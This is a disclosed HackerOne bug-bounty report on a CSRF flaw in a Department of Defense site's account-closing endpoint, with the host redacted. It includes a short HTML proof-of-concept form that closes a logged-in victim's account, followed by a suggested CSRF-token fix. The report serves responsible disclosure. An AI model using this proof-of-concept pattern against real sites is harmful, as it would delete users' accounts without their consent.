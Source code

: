 # CSRF - Close Account

## Report Details
- **Report ID**: 856518
- **URL**: https://hackerone.com/reports/856518
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-04-22T17:25:25.054Z
- **Disclosed**: 2020-06-11T19:35:58.827Z

## Reporter
- **Username**: ahmd_halabi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Target Url**
████/services/user/closeAccount

**Summary:**
Hello, I found a Cross Site Request Forgery bug in the target endpoint on the POST request `/█████/services/user/closeAccount` which is critical because it can delete authenticated user account whenever he navigates to the attacker website or link.

## Step-by-step Reproduction Instructions

1. Navigate to your account █████████/#/login.
2. Copy and paste the below code in an html file
 ```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="████████/services/user/closeAccount" method="POST">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>```

Open it in the browser, hit the button and your account will be closed.

Please see the attached video for a clear poc.
████████

## Suggested Mitigation/Remediation Actions
Add a csrf-token in the header or in an hidden input to check if the user that is doing this action authorized or not.

## Impact

This action is critical and sensitive. Attacker can upload this file to a url. Sends it to the victims. And when the authenticated victims navigate to the url their accounts will be deleted.

## Attachments
No attachments
